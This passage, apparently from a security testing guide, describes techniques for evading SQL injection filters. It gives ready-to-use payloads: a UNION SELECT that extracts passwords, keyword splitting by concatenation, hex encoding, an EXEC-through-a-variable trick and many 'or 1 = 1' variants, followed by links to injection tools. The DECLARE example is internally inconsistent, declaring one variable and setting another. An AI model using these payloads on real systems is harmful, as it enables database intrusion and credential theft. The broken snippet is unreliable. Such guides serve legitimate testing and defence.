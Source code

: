 To apply the Char(), the SQL injeciton statement will be

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on database engine. Take MS SQL engine as an example

`select 1`

The simple SQL statement can be changed as below by using concatenation

`EXEC('SEL' + 'ECT 1')`

#### Hex Encoding

Hex encoding technique uses Hexadecimal encoding to replace original SQL statement char. For example, `root` can be represented as `726F6F74`

`Select user from users where name = 'root'`

The SQL statement by using HEX value will be:

`Select user from users where name = 726F6F74`

or

`Select user from users where name = unhex('726F6F74')`

#### Declare Variables

Declare the SQL injection statement into variable and execute it.

For example, SQL injection statement below

`Union Select password`

Define the SQL statement into variable `SQLivar`

```sql
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

#### Alternative Expression of 'or 1 = 1'

- OR 'SQLi' = 'SQL'+'i'
- OR 'SQLi' &gt; 'S'
- or 20 &gt; 1
- OR 2 between 3 and 1
- OR 'SQLi' = N'SQLi'
- 1 and 1 = 1
- 1 || 1 = 1
- 1 && 1 = 1

## Tools

- [SQL Injection Fuzz Strings (from wfuzz tool) - Fuzzdb](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/sql-injection)
- [Francois Larouche: Multiple DBMS SQL Injection tool -SQL Power Injector](http://www.sqlpowerinjector.com/index.htm)
- [sqlbftools](http://packetstormsecurity.org/files/43795/sqlbftools-1.2.tar.gz.html)
- [Bernardo Damele A. G.: sqlmap, automatic SQL injection tool](http://sqlmap.org/)
- [icesurfer: SQL Server Takeover Tool - sqlninja](http://sqlninja.sourceforge.net)
- [Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool](https://github.com/dtrip/mysqloit)
- [bsqlbf, a blind SQL injection tool in Perl](https://code.google.com/p/bsqlbf-v2/)
